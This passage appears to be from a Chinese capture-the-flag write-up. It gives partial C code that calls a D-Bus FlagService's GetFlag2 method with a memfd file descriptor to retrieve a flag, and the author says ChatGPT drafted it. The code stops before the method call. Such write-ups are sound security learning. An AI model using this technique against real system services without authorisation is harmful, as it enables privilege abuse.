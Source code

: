 同样，只要把问题部分的源码扔给 ChatGPT，让后让他写段符合要求的代码，然后再改改就行了。

```c
#define _GNU_SOURCE
#include <fcntl.h>
#include <gio/gio.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <unistd.h>

#define DEST "cn.edu.ustc.lug.hack.FlagService"
#define OBJECT_PATH "/cn/edu/ustc/lug/hack/FlagService"
#define METHOD "GetFlag2"
#define INTERFACE "cn.edu.ustc.lug.hack.FlagService"

static void on_method_call_reply(GObject* source_object, GAsyncResult* res, gpointer user_data) {

}

int main() {
  GError *error = NULL;
  GDBusConnection *connection;
  GVariant *result;

  int fd = memfd_create("my_memfile", MFD_CLOEXEC);
  if (fd == -1) {
    perror("E1");
    return 1;
  }
  const char *msg = "Please give me flag2\n";
  if (write(fd, msg, strlen(msg)) == -1) {
    perror("Error\n");
    close(fd);
    return 1;
  }
  lseek(fd, 0, SEEK_SET);

  connection = g_bus_get_sync(G_BUS_TYPE_SYSTEM, NULL, &error);
  if (!connection) {
    g_printerr("Failed to connect to the system bus: %s\n", error->message);
    g_error_free(error);
    return EXIT_FAILURE;
  }
  
  GVariantBuilder builder;
  g_variant_builder_init(&builder, G_VARIANT_TYPE("(h)"));
  g_variant_builder_add(&builder, "h", 0);
  
  GUnixFDList* fd_list;
  GUnixFDList* out_fd_list;
  fd_list = g_unix_fd_list_new();
  g_unix_fd_list_append(fd_list, fd, &error);
  if (error != NULL) {
    g_error("Error\n");
    g_error_free(error);
    g_object_unref(connection);
    return 1;
  }
  
  GVariant* parameters;
  parameters = g_variant_builder_end(&builder);

  // Call the D-Bus method
```